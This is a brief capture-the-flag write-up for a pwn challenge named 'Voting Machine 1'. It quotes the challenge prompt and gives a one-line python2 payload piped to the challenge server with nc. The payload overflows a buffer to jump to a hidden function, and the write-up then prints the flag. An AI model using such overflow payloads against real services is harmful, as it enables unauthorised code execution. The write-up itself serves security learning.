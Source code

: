 [../](../../)

# Voting Machine 1

## pwn - Points: 33

> In a world with many uncertainties we need some kind of structure. Democracy is a big part of that, therefore we need voting machines! Well, at least if they are safe...
>
> nc 13.48.67.196 50000

## Solution

Overflow the buffer to redirect execution to the `super_secret_function`.

	python2 -c "print('A'*10+'\x07\x08\x40\x00\x00\x00\x00\x00')" | nc 13.48.67.196 50000

flag : `watevr{w3ll_th4t_w4s_pr3tty_tr1v1al_anyways_https://www.youtube.com/watch?v=Va4aF6rRdqU}`